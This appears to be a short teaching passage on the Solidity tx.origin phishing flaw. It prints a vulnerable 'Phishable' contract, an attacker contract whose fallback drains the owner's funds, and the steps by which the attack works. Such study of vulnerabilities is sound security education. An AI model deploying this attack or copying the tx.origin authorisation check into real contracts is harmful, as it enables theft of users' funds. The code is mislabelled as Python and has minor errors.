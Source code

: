 ```python
pragma solidity ^0.8.0; 
contract Phishable { 
	address payable public owner; 
	constructor (address payable _owner) { 
		owner = _owner; 
	} 
	fallback() external payable {} // collect ether
	function withdrawAll(address payable recipient) public { 
		require (tx.origin == owner);
		recipient.transfer(address(this).balance); 
		} 
	}
	
import "Phishable.sol"; 
contract AttackContract {
	Phishable phishableContract; 
	address payable attacker; // The attacker's address to receive funds 
	constructor(Phishable phishableContract, address payable attackerAddress) { 
		phishableContract = phishableContract; 
		attacker = attackerAddress; 
	} 
	fallback () external payable {
		phishableContract.withdrawAll(attacker); 
		} 
	}
```

The **attacker**:
- deploys the `AttackContract` 
- convince the owner of the `Phishable` contract to send the *Attacker Contract* some amount of Ether 
- the `fallback` function is invoked 
- in turn, the `withdrawnAll` is invoked

The **victim**: 
- receives a call to `withdrawnAll` 
- the address that first initialised the call was the victim, that is the owner of the `Phishable` contract. 
- therefore, `tx.origin` will be equal to owner and the require of the `Phishable` contract will pass. 
- the victim sends all the funds to the attacker
